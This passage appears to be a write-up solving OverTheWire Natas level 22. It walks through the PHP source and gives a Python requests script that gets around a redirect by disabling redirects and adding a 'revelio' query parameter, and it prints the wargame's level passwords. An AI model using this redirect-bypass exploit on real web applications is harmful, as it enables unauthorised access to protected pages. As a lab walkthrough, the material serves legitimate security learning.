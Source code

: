 ```php
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas23\n";
    print "Password: <censored></pre>";
    } 
?> 
```

From the manual on [`$_GET`](https://www.php.net/manual/en/reserved.variables.get.php), `$_GET` is an associative array of variables passed to the current script via the URL parameters (aka. query string). 

Possible attack vectors:

1. Update the `$_SESSION['admin']` to 1. But since no user input is being used to populate, this option is eliminated.

2. Guess the admin `PHPSESSID`. No session id is being returned on `GET` requests so that is gone.

3. Prevent redirects.

```py
def exploit():
    auth_username = 'natas22'
    auth_password = 'chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ' 
    sess = requests.Session()
    response = sess.post('http://natas22.natas.labs.overthewire.org/', auth=HTTPBasicAuth(auth_username, auth_password))
    dissect_response(response)
    print("----------------------------------")
    response = sess.get('http://natas22.natas.labs.overthewire.org/?revelio=1&admin=1', auth=HTTPBasicAuth(auth_username, auth_password), allow_redirects=False)
    dissect_response(response)
    print("----------------------------------")
    if(response.history):
        for resp in response.history:
            print(resp.status_code, resp.url)
        print("Final destination")
        print(response.status_code, response.url)
    print("----------------------------------")
    print(sess.cookies)
```

A simple session with `allow_redirects=False` disallows redirects. Thus, we successfully come out of the first `if` statement without being redirected. Going to the second `if` statement, a simple check is the key `revelio` is in the `GET` query means `...?revelio=1` makes this condition true. And we have the password.

Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE

# Level 23

## PHP strstr vulnerability
